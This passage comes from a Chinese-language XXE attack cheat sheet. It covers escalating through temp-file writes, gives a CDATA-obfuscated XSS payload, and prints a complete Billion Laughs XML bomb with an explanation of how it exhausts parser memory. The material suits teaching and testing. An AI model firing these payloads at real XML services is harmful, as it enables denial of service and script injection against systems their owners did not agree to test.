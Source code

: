 需要注意的是整个过程极有可能在第二步中止，关键是操作文件的过程不能中断，这个[Github仓库](https://github.com/GoSecure/xxe-workshop/tree/master/24_write_xxe/solution)可以起到很好的帮助作用。

一旦服务器下载了您的文件，您需要通过浏览临时目录找到它的位置。由于文件路径是随机的，因此无法提前预测。

![img](XXE.assets/74fac3155d455980.png)

在临时目录中写入文件有助于升级另一个涉及路径遍历的漏洞（例如本地文件包含、模板注入、XSLT RCE、反序列化等）。

### XSS

```xml-dtd
<![CDATA[<]]>script<![CDATA[>]]>alert(1)<![CDATA[<]]>/script<![CDATA[>]]>
```

### DoS

#### Billion Laugh Attack

a billion laughs attack 是一种 denial-of-service（DoS）攻击，它主要作用于 XML 文档解析器。它也被称为指数实体扩展攻击，是一种名副其实的XML炸弹。该攻击通过创建一系列递归的XML定义，在内存中产生上十亿的特定字符串，从而导致DoS攻击。

原理为：构造恶意的XML实体文件以耗尽服务器可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中，上亿的特定字符串占用内存达到GB级，使得解析器解析非常慢，并使得可用资源耗尽，从而造成拒绝服务攻击。

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
